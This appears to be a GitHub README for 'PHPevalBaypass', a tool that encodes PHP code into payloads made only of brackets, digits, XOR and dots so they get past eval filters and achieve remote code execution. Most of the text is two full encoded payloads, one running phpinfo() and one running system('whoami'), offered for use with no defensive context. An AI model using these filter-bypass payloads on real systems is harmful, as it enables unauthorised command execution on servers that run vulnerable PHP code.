




# PHPevalBaypass

## Description

RCE with ```[].0-9^```

## Usage

python3 main.py command

## Example

```python3 main.py phpinfo();```

```
[[112345678111111...8][0][15]^[5...0][0][0]][0].[[112345678111111...8][0][15]^[9...0][0][0]^[4...0][0][0]][0].[[112345678111111...8][0][15]^[5...0][0][0]][0].[[112345678111111...8][0][15]^[9...0][0][0]^[5...0][0][0]][0].[[112345678111111...8][0][15]^[9...0][0][0]^[2...0][0][0]][0].[[112345678111111...8][0][15]^[7...0][0][0]^[4...0][0][0]][0].[[112345678111111...8][0][15]^[9...0][0][0]^[3...0][0][0]][0].[[112345678111111...8][0][15]^[0...0][0][0]^[112345678111111...8][0][15]^[112345678111111...8][0][20]^[6...0][0][0]][0].[[112345678111111...8][0][15]^[0...0][0][0]^[112345678111111...8][0][15]^[112345678111111...8][0][20]^[7...0][0][0]][0].[[112345678111111...8][0][15]^[0...0][0][0]^[112345678111111...8][0][15]^[9...0][0][0]^[2...0][0][0]][0]
```





```python3 main.py system(strtolower('whoami'));```

```
[[112345678111111...8][0][15]^[6...0][0][0]][0].[[112345678111111...8][0][15]^[112345678111111...8][0][20]^[2...0][0][0]][0].[[112345678111111...8][0][15]^[6...0][0][0]][0].[[112345678111111...8][0][15]^[1...0][0][0]][0].[[112345678111111...8][0][15]][0].[[112345678111111...8][0][15]^[9...0][0][0]^[1...0][0][0]][0].[[112345678111111...8][0][15]^[0...0][0][0]^[112345678111111...8][0][15]^[112345678111111...8][0][20]^[6...0][0][0]][0].[[112345678111111...8][0][15]^[6...0][0][0]][0].[[112345678111111...8][0][15]^[1...0][0][0]][0].[[112345678111111...8][0][15]^[7...0][0][0]][0].[[112345678111111...8][0][15]^[1...0][0][0]][0].[[112345678111111...8][0][15]^[9...0][0][0]^[3...0][0][0]][0].[[112345678111111...8][0][15]^[9...0][0][0]^[0...0][0][0]][0].[[112345678111111...8][0][15]^[9...0][0][0]^[3...0][0][0]][0].[[112345678111111...8][0][15]^[2...0][0][0]][0].[[112345678111111...8][0][15]][0].[[112345678111111...8][0][15]^[7...0][0][0]][0].[[112345678111111...8][0][15]^[0...0][0][0]^[112345678111111...8][0][15]^[112345678111111...8][0][20]^[6...0][0][0]][0].[[112345678111111...8][0][15]^[0...0][0][0]^[112345678111111...8][0][15]^[112345678111111...8][0][20]^[9...0][0][0]][0].[[112345678111111...8][0][15]^[2...0][0][0]][0].[[112345678111111...8][0][15]^[9...0][0][0]^[4...0][0][0]][0].[[112345678111111...8][0][15]^[9...0][0][0]^[3...0][0][0]][0].[[112345678111111...8][0][15]^[7...0][0][0]^[3...0][0][0]][0].[[112345678111111...8][0][15]^[9...0][0][0]^[1...0][0][0]][0].[[112345678111111...8][0][15]^[9...0][0][0]^[5...0][0][0]][0].[[112345678111111...8][0][15]^[0...0][0][0]^[112345678111111...8][0][15]^[112345678111111...8][0][20]^[9...0][0][0]][0].[[112345678111111...8][0][15]^[0...0][0][0]^[112345678111111...8][0][15]^[112345678111111...8][0][20]^[7...0][0][0]][0].[[112345678111111...8][0][15]^[0...0][0][0]^[112345678111111...8][0][15]^[112345678111111...8][0][20]^[7...0][0][0]][0].[[112345678111111...8][0][15]^[0...0][0][0]^[112345678111111...8][0][15]^[9...0][0][0]^[2...0][0][0]][0]
```





